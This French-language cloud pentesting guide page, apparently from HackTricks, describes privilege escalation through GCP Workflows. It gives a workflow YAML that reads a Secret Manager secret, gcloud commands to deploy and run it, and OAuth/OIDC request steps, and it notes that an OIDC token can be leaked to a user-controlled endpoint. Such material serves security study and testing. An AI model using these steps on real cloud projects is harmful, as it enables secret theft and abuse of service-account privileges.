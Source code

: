 # GCP - Workflows Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Workflows

Informations de base :

{{#ref}}
../gcp-services/gcp-workflows-enum.md
{{#endref}}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Autant que je sache, il n'est pas possible d'obtenir un shell avec accès au point de terminaison des métadonnées contenant les identifiants de service (SA) du SA attaqué à un Workflow. Cependant, il est possible d'abuser des autorisations du SA en ajoutant les actions à effectuer à l'intérieur du Workflow.

Il est possible de trouver la documentation des connecteurs. Par exemple, voici la [**page du connecteur Secretmanager**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** Dans la barre latérale, il est possible de trouver plusieurs autres connecteurs.

Et ici, vous pouvez trouver un exemple d'un connecteur qui imprime un secret :
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: "${str_secret}"
```
Mise à jour depuis la CLI :
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
Si vous obtenez une erreur comme `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist`, il suffit de **patienter une minute et d'essayer à nouveau**.

Si vous n'avez pas accès au web, il est possible de déclencher et de voir l'exécution d'un Workflow avec :
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
> [!CAUTION]
> Vous pouvez également vérifier la sortie des exécutions précédentes pour rechercher des informations sensibles

Notez que même si vous obtenez une erreur comme `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` parce que vous n'avez pas cette permission, le workflow a été généré.

### Fuite du token OIDC (et OAuth?)

Selon [**la documentation**](https://cloud.google.com/workflows/docs/authenticate-from-workflow), il est possible d'utiliser des étapes de workflow qui enverront une requête HTTP avec le token OAuth ou OIDC. Cependant, tout comme dans le cas de [Cloud Scheduler](gcp-cloudscheduler-privesc.md), la requête HTTP avec le token Oauth doit être envoyée à l'hôte `.googleapis.com`.

> [!CAUTION]
> Par conséquent, il est **possible de fuir le token OIDC en indiquant un point de terminaison HTTP** contrôlé par l'utilisateur, mais pour fuir le **token OAuth**, vous auriez **besoin d'un contournement** pour cette protection. Cependant, vous pouvez toujours **contacter n'importe quelle API GCP pour effectuer des actions au nom du SA** en utilisant soit des connecteurs, soit des requêtes HTTP avec le token OAuth.

#### Oauth
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

Avec cette permission au lieu de `workflows.workflows.create`, il est possible de mettre à jour un workflow déjà existant et d'effectuer les mêmes attaques.

{{#include ../../../banners/hacktricks-training.md}}
